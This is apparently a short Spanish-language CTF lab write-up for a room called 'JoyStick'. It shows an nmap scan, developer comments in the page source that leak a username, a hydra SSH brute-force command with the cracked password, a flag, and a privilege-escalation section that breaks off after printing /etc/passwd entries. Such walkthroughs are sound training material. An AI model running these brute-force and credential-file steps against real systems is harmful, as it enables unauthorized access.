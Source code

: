 # JoyStick
Room Sencillita , solo bruteforcing
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
|   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
|_  256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: JoyStick Gaming
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enum

### HTTP

```html
<!-- Zach, I don't care that you named your user steve. You still need to finish making the website -->
<!-- Great, and now the FTP server just doesn't work. Just another great idea after	your failed irc chat. Why would we use that when we have in game chat? 
Not to mention that I know you still haven't reset your password.  -->
```

Por lo que se ve tenemos un usuario llamado Steve con creds faciles de averiguar

### SSH

Vamos a hacerle bruteforcing
```
hydra -l steve -P rockyou.txt 10.10.101.140 -t 16 ssh
[22][ssh] host: 10.10.101.140   login: steve   password: changeme
```

Accedemos con las creds y ya tenemos acceso a la primera flag
```
flag{is_only_gaem}
```
### Privesc

```
root:x:0:0:root:/root:/bin/bash
notch:x:1000:1000:Notch,,,:/home/notch:/bin/bash
minecraft:x:1001:1001:Mine,,,:/home/minecraft:/bin/bash
